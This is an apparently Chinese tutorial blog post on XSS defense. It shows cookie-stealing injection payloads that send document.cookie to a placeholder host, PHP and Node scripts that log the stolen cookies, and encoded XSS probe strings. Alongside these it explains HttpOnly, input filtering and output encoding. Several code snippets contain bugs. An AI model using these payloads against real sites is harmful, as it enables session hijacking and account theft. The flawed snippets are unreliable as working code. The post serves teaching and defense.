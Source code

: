 ```yaml
---
title: web安全-浅谈xss攻防（二）
date: 2018-10-10 16:05:13
cover: "https://cdn.jsdelivr.net/gh/okaychen/CDN@1.2/BlogSource/gallery/thumb_007.jpg"
tags:  
    - WEB安全
categories:
    - WEB安全
---
```


# 前言
上次介绍了什么是XSS以及XSS的三种类型，作为上次小尾巴的总结来说：XSS跨站脚本是一种经常出现在web应用程序中的计算机安全漏洞，是由于web应用程序对于用户的输入过滤不足引起的。攻击者利用网站漏洞把恶意脚本代码注入到网页之中，当其他用户浏览这些网页时，就会执行其中的恶意代码，轻者能达到恶作剧的目的，重者可以对受害者采取cookie资料窃取，会话劫持，钓鱼欺骗等各种攻击；分为三种类型，服务端的存储型和反射性，客户端自身漏洞引起的DOM型。这次我简单总结一些常见的攻击对应的防御措施，方便以后学习回顾;
<!--more-->
# 1.Cookie劫持
下面是几种是窃取用户Cookie信息的恶意代码，攻击者向漏洞页面写入类似的恶意代码从而达到获取客户端cookie信息的目的:

```
<script>document.location="http://test.com/cookie.asp?cookie ='+document.cookie</script>
<img src="http://test.com/cookie.asp?cookie ='+document.cookie">
<script>new Image().src="http://test.com/cookie.asp?cookie ='+document.cookie"</script>
<script>img=new Image();img.src="http://test.com/cookie.asp?cookie ='+document.cookie";img.wdith=0;img.height=0;</script>
<script>document.write('<img src="http://test.com/cookie.asp?cookie ='+document.cookie" width=0 height=0 border=0>')</script>
```
诸如此类，一旦注入成功，这些恶意代码都会向某个特定的远程服务器提交cookie，攻击者会在远程服务器上写一个接收和记录cookie信息的文件
例如php版本：
```php
<?php
    $cookie=$_GET['cookie'];
    $log= fopen("cookie.txt","a");
    fwrite($log,$cookie ."\n");
    fclose($log);
?>
```
或者node来处理:
```js
const http = require('http');
const fs = require('fs');

http.createServer(function(req,res){
    var Cookies = {};
    
    req.headers.cookie && req.headers.cookie.split(';').foEach(function(Cookies){
        var parts = Cookie.split('=');
        Cookies[ parts[ 0 ].trim() ] = ( parts[ 1 ] || '' ).trim();
    })

    console.log(Cookies)

    res.writeHeader(200,{
        'Set-Cookie' : 'SSID=EqAc1D; Expires=Wed', 
        // 注意上面我们不设置HttpOnly;Fix:>>>'SSID=EqAc1D; Expires=Wed;HttpOnly'<<<
		'Content-Type' : 'text/plain'
    });
    
    fs.open('cookie.txt','r+',function(err,fd){
        if(err){
            return console.error(err);
        }
        fs.writeFile(fd,Cookies,function(){
            if(err){
                return console.error(err);
            }
        })
    })
}).listen(8000);
```
亦或是jsp版本、python flask等等诸如此类可以获取到从客户端发来的cookie做接收和记录操作的。

获取到存储信息的cookie.txt后，攻击者就可以通过修改网站的cookie信息（f12打开开发者控制工具，application/Cookies）来登入网站，从而来进行进一步的攻击操作。

## 防止cookie会话劫持
根本原因是攻击者获取cookie的恶意js代码注入到站点，进一步传到攻击者的远程服务器，从而进行攻击操作；
对于可能的意外注入站点的获取cookie的恶意js代码，我们一般要在设置cookie时加HttpOnly，来禁止意外注入站点的恶意js代码操作Cookie造成xss攻击
比如node设置HttpOnly：
```js
'Set-Cookie' : 'SSID=EqAc1D; Expires=Wed ;HttpOnly'
```
或者php设置HttpOnly：
```php
<?php ini_set("session.cookie_httponly", 1); ?>
```
# 2.提高攻击门槛

## 使用XSS Filter
针对用户提交的数据进行有效的验证，只接受我们规定的长度或内容的提交，过滤掉其他的输入内容，例如：
1.表单数据指定值的类型：年龄只能是 int 、name 只能是字母数字等
2.过滤或移除特殊的 html 标签：`<script>`、`<iframe>`等
3.过滤 js 事件的标签：onclick、onerror、onfocus等
4.对于要求用户输入的一些特殊格式的字段，用正则和字段长度进行严格限制，比如手机号，邮箱等
如在客户端进行验证手机号的JavaScript代码:
```js
<form id="test">
    <input type="text" id="tel">
    <input type="button" onclick="checkTel()"> 
</form>
<script>
    function(){
        let re = /^020-\d{8}$/;
        if(re.test(document.getElementById("Tel").value)){
            alert('电话号码格式正确');
        }else{
            alert('错误的电话号码');
        }
    }
</script>
```
这段JavaScript验证代码要求用户输入的必须是020-开头，后跟8位数字.
> 但是需要特别注意的是，*仅仅在客户端进行非法输入的验证和检测是远远不够的*，因为客户端组件和用户输入不在服务器的控制范围内，用户能够完全控制客户端及提交的数据，比如firebug、TemperDate之类的工具，拦截应用程序收到和发布每一个HTTP/HTTPS请求和响应，对其进行修改和检查，从而绕过客户端的检验将信息提交到服务器中。因此，确认客户端生成数据的唯一安全方法就是在服务端实施保护措施。

## 输出编码Xss Escape
有时候我们又不可避免的需要用户输入一些特殊字符，但是我们又不确定用户输入的这段含特殊字符的数据是不是恶意的含xss的字符，为了保证用户输入的完整性和正确性，就可以使用编码（HTMLEncode）进行处理。

HTML编码在防止xss攻击上能起很大的作用，它主要使用对应的实体代替HTML字符，让该字符作为其HTML文档的内容而非结构加以处理。

| 显示 | 实体名字 | 实体编号 |
| :------: | :------: | :------: |
| `<` | `&lt;` | `&#60;` |
| `>` | `&gt;` | `&#62;` |
| `&` | `&amp;` | `&#38;` |
| `"` | `&quot;` | `&#34;` |

上面就是几个可能触发xss的敏感字符，都是一些特殊的HTML字符。都这些字符实现编码和转义后，能够有效地防范HTML注入和XSS攻击

例如php的`htmlspecialchars()`库函数，就能够将用户输入的特殊字符进行实体转换：
- `<` 转成 `&lt;`
- `>` 转成 `&gt;`
- `&` 转成 `&amp;`
- `"` 转成 `&quot;`
- `'` 转成 `&#39;`

实际情况中，我们可以结合这两种情况进行过滤
![安全的过滤形式](/assets/images/xss-encode02.png)

# 3.Xss漏洞检测Poc
标准的xss漏洞检测代码
```js
<script>alert('xss')</script>
```
img 图片标记属性跨站攻击代码
```
<img src="javascript:alert(/xss/)"></img> <img dynsrc="javascript:alert('xss')">
```
无需 “<>”，利用 html 标记事件属性跨站
```
<img src="" onerror=alert("xss")>
```
空格与回车符转换
```
<img src="Jav&#x09;ascript:alert('xss')"> <img src="Jav&#x0A;ascript:alert('xss')"> <img src="Jav&#x0D;ascript:alert('xss')">
```
10 进制转换
```
<img src="&#74&#97&#118&#97&#115&#99&#114&#105&#112&#116&#58&#97&#108&#101&#114&#116&#40&#39&#120&#115&#115&#39&#41">
```
以上代码都可以做 Poc 使用，在有变量的位置插入，如果成功执行则代表有漏洞。
只要你提交的Poc，服务端原封不动的返回了，说明服务端不经过任何处理就显示了，就证明有漏洞存在。

# 参考资料
[《XSS跨站脚本剖析与防御》--邱永华](https://book.douban.com/subject/25711796/)
[《白帽子讲web安全》--吴翰清](https://book.douban.com/subject/10546925/)
[《Web 安全：前端攻击 XSS 深入解析》](https://blog.csdn.net/gitchat/article/details/78726803)